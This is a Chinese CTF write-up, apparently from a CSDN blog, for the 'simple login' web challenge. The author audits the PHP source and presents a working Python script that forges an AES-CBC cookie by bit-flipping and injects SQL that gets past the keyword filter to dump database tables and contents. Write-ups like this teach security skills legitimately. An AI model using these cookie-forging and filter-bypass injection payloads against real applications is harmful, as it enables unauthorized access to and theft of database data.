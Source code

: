 <!--yml
category: 未分类
date: 2022-04-26 14:17:59
-->

# 一道简单的CTF登录题题解_anquanniu牛油果的博客-CSDN博客_ctf login题目

> 来源：[https://blog.csdn.net/anquanniu/article/details/88238396](https://blog.csdn.net/anquanniu/article/details/88238396)

一、解题感受

这道题50分，在实验吧练习场算比较高分，而且通过率只有14%，比较低的水平。

看到这两个数据，一开始就心生惬意，实在不应该呀！

也是因为心态原因，在发现test.php之后，自以为在SQL注入时只要能截断后面的SQL语句，FLAG就在user里面，尝试了一段时间SQL注入都失败后，有些急躁，然后就早早拜读了pcat大神的攻略。。。

在攻略的帮助下，顺利完成题目。

所以本文主要是在pcat大神的指导下完成，放出来只是想分享一下历程和自我总结。

若有不正之处，还请路过的各位大神不吝指出。

二、事后复盘
心态很重要，关键是享受学习的过程，而不是追求结果，这样的心态才能不知不觉之间势如破竹，而一旦有了得失心，思绪就会被扰乱，进而急躁，就算能得到结果但其实是无用功。

因此，切记：无论是平时还是应试，要保持学习、平和的心态！！！

三、做题过程
1、审题目：《简单的登录》，没有暴露任何信息（有些题目可能透露一些加密算法名字之类）

image.png

2、看题型：Web，简单经典的登录框界面，情不自禁耍起了Web套路：看下源代码，无异常；御剑扫后台，让它扫着的同时继续尝试其他方法；用Burp截获报文，修改id为admin之类敏感字眼，提交表单，看服务器返回的信息，还是无异常；当还在尝试id变换不同敏感字眼时，发现服务器返回了一个tips: test.php；看来御剑也不用忙活了，直接进这个网页看看。

image.png

3、得到一大串代码，接下来就是代码审计了。

image.png

4、代码实现的流程

a、提交上来的id，先进行关键字的过滤，防止SQL注入，包括=、-、#、union、like、procedure等等，如果检测到这些敏感字符，则会直接die并返回显示Sql inject detected。

b、通过过滤的id，服务器会返回两个值：iv与cipher

iv：随机生成的16位值，再经过base64转码

cipher：id序列化、预设的SECRET_KEY（打码）、上面得到的iv值，三者经过aes-128-cbc加密得到cipher值

服务器把iv、cipher设置到cookie然后返回，顺便还显示了一个Hello！

c、如果Post给服务器的报文，没有包括id，而且cookie里有iv和cipher值，则进入函数show_homepage()；

d、 show_homepage()大致过程：将iv、cipher经过base64解码，然后把预设的SECRET_KEY（打码）、iv、cipher经过aes-128-cbc解密，得到plain

e、如果plain无法反序列化，则die并返回plain的base64编码数据；如果可以序列化，则将id值拼接到sql语句中“select * from users limit .$info[‘id’] ,0”，并提交到数据库，返回数据，并附在返回的Hello后。

5、从代码分析可以看出关键就在于这个sql语句 “select * from users limit .$info[‘id’] ,0”

正常的话，无论id输入什么值，都会无功而返，因此只能构造进行sql注入，具体要实现两点：

a、注释掉后面“,0”

b、id=1，从而构造为“select * from users limit 1”

注释做了很多尝试，由于过滤了#、–，所以尝试用%00，用Burp Repeater尝试，将id=1 %00，post提交，然后用返回的iv、cipher值，作为第二次的cookie，然后去掉“id=”再次post，结果能返回Hello!rootzz

（现在写出来比较简单，但是当时在不少细节上进了坑，得细心点看源代码啊）

（另外，从源代码来看，第二次无id Post时，并没有直接传入id，但尽然能得到rootzz，从这可以猜测：此时的id由cipher值解密得到，为后续进一步工作奠定了基础）

image.png

image.png

6、居然不是flag，如果是flag多好啊，就这样美好的结束了，但也许幸福就是来之不易的吧

而且如果就这样能解决战斗的啊，还有一串代码的功能就毫无永无之地了，依据多年的考试经验，题目肯定不会这样出的，因此仔细分析源代码的逻辑，发现有个漏洞，虽然第一次提交id时，做了过滤，但是第二次提交iv和cipher值，是不会做过滤的，在这里跟pcat大神学习了，用cbc翻转一个字节进行攻击。具体如下：

a、提交能经过过滤检测的SQL语句，如id=12

b、结合得到的iv、cipher，用cbc字节翻转cipher对应id=12中2的字节，得到cipher_new，提交iv、cipher_new

c、第二次提交得到plain（如果忘了是啥可以往回看）

d、把iv、plain、‘id=12’序列第一行（16个字节为一行），进行异或操作，得到iv_new

e、把iv_new、cipher_new，去掉id=xx post到服务器即可得到 id=1# 的结果，即Hello!rootzz

7、上一步成功达到偷梁换日的做法，下一步就是把id=12换成我们熟悉的SQL注入语句，在这里要注意的是：注释还是用%00，=用regexp代替，逗号用join代替，union用2nion代替，然后用cbc字节转换，把2换成u。值得注意的是cbc字节转换时的偏移量，最好自己写个php代码算一下前一行相应的位置。而具体代码完全参考pcat大神的做法，这里也贴出来，方便以后查看，再次感谢pcat，特别是在大神帖子留了几次问题，都能得到耐心的解答，谢谢！

image.png

四、源码分享

# -*- coding:utf8 -*-

from base64 import *

import urllib

import requests

import re

def denglu(payload,idx,c1,c2):

```
url=r’http://ctf5.shiyanbar.com/web/jiandan/index.php’

payload = {‘id’: payload}

r = requests.post(url, data=payload)

Set_Cookie=r.headers['Set-Cookie']

iv=re.findall(r”iv=(.*?),”, Set_Cookie)[0]

cipher=re.findall(r”cipher=(.*)”, Set_Cookie)[0]

iv_raw = b64decode(urllib.unquote(iv))

cipher_raw=b64decode(urllib.unquote(cipher))

lst=list(cipher_raw)

lst[idx]=chr(ord(lst[idx])^ord(c1)^ord(c2))

cipher_new=”.join(lst)

cipher_new=urllib.quote(b64encode(cipher_new))

cookie_new={‘iv’: iv,’cipher’:cipher_new}

r = requests.post(url, cookies=cookie_new)

cont=r.content

plain = re.findall(r”base64_decode\(‘(.*?)’\)”, cont)[0]

plain = b64decode(plain)

first=’a:1:{s:2:”id”;s:’

iv_new=”

for i in range(16):

    iv_new += chr(ord(first[i])^ord(plain[i])^ord(iv_raw[i]))

iv_new = urllib.quote(b64encode(iv_new))

cookie_new = {‘iv’: iv_new, ‘cipher’: cipher_new}

r = requests.post(url, cookies=cookie_new)

rcont = r.content

print rcont 
```

denglu(’12′,4,’2′,’#’)

denglu(’0 2nion select * from((select 1)a join (select 2)b join (select 3)c);’+chr(0),6,’2′,’u’)

denglu(’0 2nion select * from((select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema regexp database())b join (select 3)c);’+chr(0),7,’2′,’u’)

denglu(“0 2nion select * from((select 1)a join (select group_concat(column_name) from information_schema.columns where table_name regexp ‘you_want’)b join (select 3)c);”+chr(0),7,’2′,’u’)

denglu(“0 2nion select * from((select 1)a join (select * from you_want)b join (select 3)c);”+chr(0),6,’2′,’u’)

关于CTF入门的一些简单题可以从网上找，在线教程的话推荐安全牛课堂的[CTF从入门到提升](https://edu.aqniu.com/course/8954?from=cs)，在校大学生可以申请学习。
![在这里插入图片描述](img/52caa18b575d45dc86405d02ab28b98a.png)